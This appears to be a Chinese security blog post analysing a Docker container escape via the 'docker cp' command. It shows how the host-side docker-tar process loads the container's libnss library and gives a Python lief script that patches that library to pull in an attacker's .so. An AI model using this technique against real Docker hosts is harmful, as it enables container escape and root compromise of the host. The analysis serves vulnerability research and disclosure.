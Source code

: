 Docker在使用cp命令拷贝文件的时候。会启动一个名为docker-tar的进程来执行拷贝的操作。由于docker cp命令通常执行速度很快，所以需要一些bash命令技巧来帮助我们观察其执行过程。如图2所示可以看到docker-tar作为dockerd的子进程。和dockerd同样具有root权限

1. 如图3所示，通过反复查看/proc/`{`PID`}`/root这个软链接的指向可以发现docker-tar进程通过chroot的方式进入docker容器文件系统的内部。该功能的本意是通过chroot防止恶意攻击者通过符号链接攻击的方式操作host文件。

[![](https://p5.ssl.qhimg.com/t01cfdbef4e2c83febb.png)](https://p5.ssl.qhimg.com/t01cfdbef4e2c83febb.png)

2. 如图4所示，docker-tar进程在使用chroot进入到文件系统中之后，又加载了一些libssn有关的so库。由于chroot，所以加载的均为容器中的so库。

[![](https://p1.ssl.qhimg.com/t01906a4e9c4e1471cc.png)](https://p1.ssl.qhimg.com/t01906a4e9c4e1471cc.png)

3. 然后查看docker-tar的namespace状态。如图5所示，在和host上的shell进程ns进行对比后可以发现docker-tar本身并没有进入到容器的ns当中。该进程为host进程。

[![](https://p4.ssl.qhimg.com/t015cd9680262e174c5.png)](https://p4.ssl.qhimg.com/t015cd9680262e174c5.png)

因此，只需要攻击者具有docker内部的root权限，就可以替换libnss_files-2.27.so这个文件。只需要等待管理员使用docker cp进行文件复制就可以实现逃逸。

为了利用，首先需要做的就是准备一个用以攻击的libnss_file.so。为了方便修改恶意代码并且不破坏原有so库的功能。采用的方式是对镜像中原有的libnss_file.so进行二进制patch额外添加一个依赖库。这样只需要准备一个包含恶意代码的so库让libnss进行加载即可。patch代码如下

```
#! /usr/bin/python3
import argparse
from os import path
import lief
import sys

if __name__ == "__main__":
parser = argparse.ArgumentParser(description="add libaray requirement to a elf")

parser.add_argument("elf_path", metavar="elf", type=str, help="elf to patch")
parser.add_argument("requirement", metavar="req", type=str, help="libaray requirement wath to add")
parser.add_argument("-o", "--out", type=str, help="patch file path, *_patch by default")

args = parser.parse_args()
elf_path = args.elf_path

if not path.isfile(elf_path):
print(f"no such file: `{`elf_path`}`", file=sys.stderr)
exit(-1)

elf = lief.parse(elf_path)
if elf is None:
print(f"parse elf file `{`elf_path`}` error", file=sys.stderr)
exit(-1)

elf.add_library(args.requirement)

elf_name = path.basename(elf_path)
out_path = args.out
if out_path is None:
elf.write(elf_name+"_patch")
elif path.isdir(out_path):
elf.write(path.join(out_path,elf_name+"_patch"))
else:
out_dir = path.dirname(out_path)
if not path.isdir(out_dir):
print(f"no such dir: `{`out_dir`}`")
exit(-1)
elf.write(out_path)
```
